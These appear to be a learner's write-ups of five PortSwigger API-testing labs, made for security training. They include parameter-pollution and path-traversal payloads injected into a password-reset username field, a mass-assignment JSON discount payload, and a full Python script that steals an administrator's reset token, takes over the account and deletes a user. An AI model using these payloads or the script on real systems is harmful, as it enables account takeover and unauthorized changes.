# Portswigger Writeups

## Lab 1: Using Documentation

To solve the lab, delete `carlos` using the API. When changing the email of the `wiener` user, I saw this `PATCH` request being sent:



PATCH is a HTTP method used to modify values of the resource properties. Since PATCH is used for modifying, DELETE is used for deleting.

Sending a DELETE request to `/api/user/carlos` works.

## Lab 2: Server-Side Parameter Pollution

To solve this, delete `carlos` as the `administrator` user. There is a forget password option for this lab:



Sending a password reset request for `carlos` results in this:



After sending this request, I saw a `forgotPassword.js` file being used:



Here's the important contents:

```js
let forgotPwdReady = (callback) => {
    if (document.readyState !== "loading") callback();
    else document.addEventListener("DOMContentLoaded", callback);
}s

function urlencodeFormData(fd){
    let s = '';
    function encode(s){ return encodeURIComponent(s).replace(/%20/g,'+'); }
    for(let pair of fd.entries()){
        if(typeof pair[1]=='string'){
            s += (s?'&':'') + encode(pair[0])+'='+encode(pair[1]);
        }
    }
    return s;
}

const validateInputsAndCreateMsg = () => {
    try {
        const forgotPasswordError = document.getElementById("forgot-password-error");
        forgotPasswordError.textContent = "";
        const forgotPasswordForm = document.getElementById("forgot-password-form");
        const usernameInput = document.getElementsByName("username").item(0);
        if (usernameInput && !usernameInput.checkValidity()) {
            usernameInput.reportValidity();
            return;
        }
        const formData = new FormData(forgotPasswordForm);
        const config = {
            method: "POST",
            headers: {
                "Content-Type": "x-www-form-urlencoded",
            },
            body: urlencodeFormData(formData)
        };
        fetch(window.location.pathname, config)
            .then(response => response.json())
            .then(jsonResponse => {
                if (!jsonResponse.hasOwnProperty("result"))
                {
                    forgotPasswordError.textContent = "Invalid username";
                }
                else
                {
                    forgotPasswordError.textContent = `Please check your email: "${jsonResponse.result}"`;
                    forgotPasswordForm.className = "";
                    forgotPasswordForm.style.display = "none";
                }
            })
            .catch(err => {
                forgotPasswordError.textContent = "Invalid username";
            });
    } catch (error) {
        console.error("Unexpected Error:", error);
    }
}

const displayMsg = (e) => {
    e.preventDefault();
    validateInputsAndCreateMsg(e);
};

forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

The one thing I am interested in is the `reset-token` value, since that allows me to reset the password of any user. The only thing that accepts user input is the `username` parameter when resetting the password. 

Setting to `administrator&1=1` results in this error:



If I just modify the username, then it will tell me its invalid.



So the `&` character is not parsed properly, and it is interpreted as including another POST parameter. Notice that there's a `type` of variable, meaning there's probably a parameter that IS supported and I can use to enumerate the types stored within this.

Fuzzing reveals that `field` is the parameter:



This returns a different response. Using this, I input the field as `reset-token` and `reset_token`. The latter returned a `reset_token` type:



Visiting the `forget-password` directory with the correct token lets me reset the password:



I can then login and solve the lab.

## Lab 3: Undocumented API Endpoint

To solve this lab, buy the jacket. When viewing products, I noticed usage of an API:



The first lab used PATCH to change values, and I tried this here and it worked:



I can then reset the price of the first product to 0.



The jacket is then 'free'.


## Lab 4: Mass Assignment

To solve this lab, buy the jacket. When trying to checkout to buy any product, there is a GET and POST request to `/api/checkout` proxied:



The POST request just has the `chosen_products` variable:



Since there's a `chosen_discount` variable, I just added that to the POST request:

```json
{
"chosen_discount":{
    "percentage":100
},

"chosen_products":[
    {"product_id":"1",
    "quantity":1}
    ]
}
```

Sending the above solves the lab.

## Lab 5: Server-Side Parameter Pollution

To solve this lab, delete `carlos` as the `administrator`. There's a Forget Password feature for this lab:



As usual, there's a Javascript files used to process this:



Altering the `username` parameter with a `#` character results in a unique error:



'Invalid route' is interesting, and it may mean that the `username` parameter is a path used by the API. Playing around with this and `../` eventually results in this unique error:



So using 4 `../` means I have exited the API root. It keeps referring me to 'API documentation', and Portswigger academy does give me a few examples:

```
/api
/swagger/index.html
/openapi.json
```

Visiting `../../../../openapi.json` reveals a new error:



There is one `path` variable which directs me to `/api/internal/v1/users/{username}/field/{field}`.

This is the same field variable as above. Additionally, the `forgotpassword.js` file uses a `passwordResetToken` variable. Attempting to visit `/api` using my browser doesn't work, meaning it might only be accessible on the backend via the `username` parameter.

Setting the `username` as `../../../../api/internal/v1/users/administrator/field/passwordResetToken` works in retrieving the token:



Using the above, I can reset the password, login, and delete `carlos`.

Now, I can script this entire process.

```python
import requests
import re
import sys
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a0800dc041ee07980a185950066002a'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/forgot-password', proxies=proxies, verify=False)
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
reset_csrf_token = match[1]

## Generate passwordResetToken
reset_data = {
	'csrf':reset_csrf_token,
	'username':'administrator'
}
r = s.post(url + '/forgot-password', proxies=proxies, verify=False, data=reset_data)
if '*****@normal-user.net' not in r.text:
	print('[-] error with generating code')
	exit()

print('[+] generated code')

## retrieve code
r = s.get(url + '/forgot-password', proxies=proxies, verify=False)
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
reset_csrf_token = match[1]

reset_data = {
	'csrf':reset_csrf_token,
	'username':'../../../../api/internal/v1/users/administrator/field/passwordResetToken#'
}
r = s.post(url + '/forgot-password', proxies=proxies, verify=False, data=reset_data)
if 'passwordResetToken' not in r.text:
	print('[-] error with generating code')
	exit()

match = re.search(r'result": "([0-9a-zA-z]+)', r.text)
if not match:
	print('[-] cannot find reset token')
password_token = match[1]
print(f'[+] found token: {password_token}')

## reset password
r = s.get(url + f'/forgot-password?passwordResetToken={password_token}', proxies=proxies, verify=False)
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
reset_csrf_token = match[1]

password_data = {
	'csrf':reset_csrf_token,
	'passwordResetToken':password_token,
	'new-password-1':'test1234',
	'new-password-2':'test1234'
}

r = s.post(url + f'/forgot-password?passwordResetToken={password_token}', proxies=proxies, verify=False, data=password_data)

## login and solve
r = s.get(url + '/login', proxies=proxies, verify=False)
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf = match[1]

login_data = {
	'csrf':login_csrf,
	'username':'administrator',
	'password':'test1234'
}

r = s.post(url + '/login', proxies=proxies, verify=False, data=login_data)
if 'Your email is:' not in r.text:
	print('[-] login failed')
	exit()
print('[+] login worked')
s.get(url + '/admin/delete?username=carlos', proxies=proxies, verify=False)
```